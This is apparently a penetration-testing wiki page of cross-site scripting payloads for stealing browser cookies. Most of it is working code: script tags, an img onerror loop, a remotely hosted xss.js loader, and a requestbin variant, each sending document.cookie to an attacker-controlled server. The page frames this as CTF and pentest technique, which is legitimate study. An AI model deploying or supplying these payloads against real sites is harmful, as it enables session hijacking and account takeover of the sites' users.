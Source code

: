 # Stealing Cookies

Stealing cookies to obtain privileges is the fever dream of hackers looking to exploit cross-site scripting vulnerabilities.&#x20;

### Payloads

#### Verification with alert()

This payload will pop an `alert()` box prior to sending the cookie. This can be usefuil for testing a cross-site scripting payload and verifying that it is grabbing the intended information. Once the `alert()` box closes, the cookie will be sent to the arbitrary server:

```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://172.0.0.1:1337/?"+document.cookie;
</script>
```

#### Exfiltrating cookies without alert()

After verifying that the parameter is susceptible to cross-site scripting, we can leverage the following payload to exfiltrate cookies silently:

```javascript
<script>var i=new Image;i.src="http://172.0.0.1:1337/?"+document.cookie;</script>
```

#### CTF Only Payload

The following payload leverages the `img` tag rather then `script` and will call `onerror()` in a loop, ultimately filling up your server with cookies. I have found this can be life-saving in a CTF when things may not be working as the author originally intended:

```javascript
<img src=x onerror=this.src='http://172.0.0.1:1337/?'+document.cookie;>
```

#### My Preferred Method

The way that I like to go about capturing cookies is submitting the following payload, calling back to a JavaScript file that I am host on a Python web server:

```javascript
<script src="http://172.0.0.1/xss.js"></script>
```

The `xss.js` file looks like the following, ultimately it is doing the same as the above payloads by grabbing and sending the cookies to my hosted web server:

```javascript
function pwn() {
    var img = document.createElement("img");
    img.src = "http://172.0.0.1/xss?=" + document.cookie;
    document.body.appendChild(img);
}
pwn();
```

### Capturing the Cookies

Unless you're in a CTF environment, I would highly recommend capturing the cookies on a local web server or Burp collaborator instance. I'm not sure about you, but sending cookies to a random website seems like a bad idea to me. That being said, there are sites that exist such as `requestbin` to send the request to:

```javascript
http://172.0.0.1:1337/<script>new Image().src="http://requestbin.net/r/mybin?c="+document.cookie;</script>
```

### References

{% embed url="https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md" %}

{% embed url="https://snowscan.io/htb-writeup-bankrobber/" %}
